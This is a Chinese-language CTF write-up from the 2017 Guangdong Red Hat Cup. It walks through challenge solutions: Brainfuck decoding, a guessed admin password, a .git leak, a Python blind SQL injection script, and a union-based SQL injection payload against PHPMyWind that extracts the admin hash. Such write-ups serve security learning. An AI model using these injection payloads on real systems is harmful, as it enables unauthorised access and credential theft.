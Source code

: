 <!--
广东省红帽杯网络安全攻防大赛 CTF - Write Up
广东省红帽杯网络安全攻防大赛 CTF
1497753838
-->

## 签到 / Misc / 10pt

本期的签到题没有难度，关注微信公众号「CTFer 的魔法棒」，关注后在公众号中发送 ctf 就会自动回复本题的 FLAG

![](https://imlonghao.com/files/48/590e0ecfb906e.jpg)

```
flag{BE78989E-1F00-8326-11AD-590B23F48AB3}
```

## brian(Y) / Crypto / 50pt

在我还在做签到题的时候就已经有队伍解出来这道题了，所以估计不会太难。

```
+++++ +++++ [->++ +++++ +++<] >++.+ +++++ .<+++ [->-- -<]>- -.+++ +++.<
++++[ ->+++ +<]>+ +++.< ++++[ ->--- -<]>- ----- .<+++ +++[- >---- --<]>
----- ----- -.+.- ..--- ---.. <++++ +++[- >++++ +++<] >.<++ +++++ [->--
----- <]>-- -.+++ .++++ ++.<+ +++++ [->++ ++++< ]>+++ +++++ .<+++ +++[-
>---- --<]> ----- ----- .---- ---.+ +++++ +.<++ ++++[ ->+++ +++<] >++++
+++++ .<+++ +++[- >---- --<]> ----- ----- -.--. ---.< +++++ ++[-> +++++
++<]> ++++. <++++ +++[- >---- ---<] >.+++ +.+++ +.<++ +[->- --<]> ---.<
+++++ ++[-> +++++ ++<]> +++++ +.<++ ++++[ ->--- ---<] >---- ----- --.+.
-.-.. ---.+ +++.< +++++ +[->+ +++++ <]>++ +++++ ++++. <++++ +++[- >----
---<] >---. <++++ +++[- >++++ +++<] >++.< +++++ +[->- ----- <]>-- -----
----- .<+++ +++++ [->++ +++++ +<]>+ +++++ ++++. <
```

观察可知，该密文主要由 +-<>[]. 组成。经过判断，这种语言称为 Brainfuck ，一般由 +-<>[]., 八种字符组成。 使用在线转换网站即可将密文转换回文本，https://www.splitbrain.org/services/ook

```
flag{e676600a-06b4-4a20-b159-d5654415d0c3}
```

## 后台 / Web / 200pt

我真的觉得这题给 200 分是放水的。

题目已经十分明显得暗示了答案

> 经典后台管理系统，系统建成于 2017 年，管理员以建成日期作为口令。

![](https://imlonghao.com/files/48/590e11d9ba4d9.png)

打开网页， `admin` 已经作为 `value` 的参数写在了用户名这一栏当中，可以十分肯定用户名就是 `admin`

而密码根据 `placeholder="........"` 的推测，是有 8 位数的，结合题目的暗示，即为今天的日期： `20170506`

输入验证码后登录，即可以轻松拿到 Flag

```
flag{2ac81311-0d7c-4f52-92ae-233ba3515a6d}
```

##刮刮乐 / Web / 100pt

一打开这个网页，首先我关注了他的网页源代码，源代码并没有给出太多的提示。

在网上进行了相关的搜索，发现这是一个网上一个经典的 canvas 刮刮乐代码，因此问题应该不再这里。

然后我将重点放在了这张图中

一开始以为是 png 隐写之类的，通过 binwalk 检测这应该只是一张纯粹的图片

```
imlonghao@imlonghao ~/下载$ binwalk 5286cd31708ef957.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 403 x 214, 8-bit/color RGB, non-interlaced
77            0x4D            Zlib compressed data, default compression
```

然后我就关注在了图片本身，「信息泄露第一步」，应该就是暗示我们扫一下网站的目录。

很快我便发现了存在 `/.git/` 目录，然后套上了 GitHack

很快下载到了一个 `flag.php` 文件，我们的 flag 就躺在里面

![](https://imlonghao.com/files/48/590e8528573e7.png)

```
flag{027ea8c2-7be2-4cec-aca3-b6ba400759e8}
```

## thinkseeker / Web / 300pt

这题开始便有意思了，网页打开就是一个非常简单的提交登录框，估计就是 SQL 注入类型的。

![](https://imlonghao.com/files/48/590e85deb86c7.png)

随便输入了一个 `userid` 和密码，他是以 GET 的方式提交到 / 这个文件的，构成的 URL 就是 http://106.75.117.4:3083/?userid=1&password=1

但是他始终提示我们 `Bad token!` ，一开始也卡了挺久，后来想应该是和其他参数一样，于是构造了个 `http://106.75.117.4:3083/?userid=1&password=1&token=blablabla` 的链接

经过一轮测试， token 应该为 admin 的 MD5 值，然后我们便通过了 token 的检测。

userid 通常按照数据库的自增的话，应该第一个就是 1 ，然后我们知道了这个用户的 userid 为 1

然后进行 SQL 的测试，先看看他有什么被过滤的字符

`'` `"` `join` `union` , 这些被检测出来之后会提示 `inj code!` ，过滤得不多，还有挺多的发挥空间。

参考了网上的姿势，给 userid 使用了 `-1=1=0` ，多重判断之后也成功得通过了 userid 的检验，因此尝试从这里进行盲注。

于是写了个 Python 脚本进行处理，从 Flag 的第一位开始判断，逐位判断。

```python
import requests

url = 'http://106.75.117.4:3083/index.php?userid=(ascii(mid((select(flag)from(flag))from(%s)for(1)))=%s)&password=123456&token=21232f297a57a5a743894a0e4a801fc3'
payloads = '{}-0123456789QWERTYUIOPLKJHGFDSAZXCVBNMqwertyuioplkjhgfdsazxcvbnm'
flag = ''

for i in range(1, 40):
    for payload in payloads:
        text = requests.get(url % (i, ord(payload))).text
        if 'error userid' not in text:
            flag += payload
            continue
    print(flag)


flag{71fb58931b330a83eba9b25e40ac437a}
```

![](https://imlonghao.com/files/48/590e8f16ceff0.png)

## PHPMyWIND / Web / 200pt

![](https://imlonghao.com/files/48/590e91a116e1c.png)

首先看了看网站的 Logo ，所使用的版本应该是 2014 年之前的，也就是说我们有很多选择可以进行操作。

我所使用的注入点是 `shoppingcart.php` 这个文件，注入的结果可以直接以 title 的形式返回出来，比较方便。

首先直接访问

```
http://106.75.96.7:3089/shoppingcart.php?a=addshopingcart&goodsid=1 and @`'` /*!50000union*/ select null,null,null,null,null,null,null,null,null,null,(Select concat(username,0x7e,password) from `pmw_admin` where id=1),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from pmw_admin where 1=1 or @`'`&buynum=1&goodsattr=tpcs
```

然后在查看我们的购物车

http://106.75.96.7:3089/shoppingcart.php

![](https://imlonghao.com/files/48/590e931ba7a40.png)

我们就拿到了管理员的用户名和密码，分别是 `admin` 和 `4027875a97a7787b9032ea46dae45d05`

通过 CMD5 不难解出 4027875a97a7787b9032ea46dae45d05 的明文就是 666888

使用 admin 和 666888 即可登录到后台，后台的地址也是默认的地址： http://106.75.96.7:3089/admin/

本来是想通过后台 getshell 进行操作然后拿 Flag 的，但是管理员限制了所有上传目录权限，也禁止了修改网站的配置文件。

想了想上午题目刚出来的时候目标站被各种 phpinfo 所占据，影响到很多队伍参赛，我就断定应该是管理员故意禁止的，可能出题人并不希望我们拿 shell ，而是应该将 Flag 写在了网站的某个地方，于是把所有能点的地方点了一遍。

最后找到了这个叫 默认模板文件管理 的地方，发现了我们的 Flag

![](https://imlonghao.com/files/48/590e947e59f05.png)

于是直接访问这个地址，顺利拿到 Flag

![](https://imlonghao.com/files/48/590e94aba3bac.png)

```
flag{14070c9e-bab5-47ec-88f7-9e574bd328f6}
```
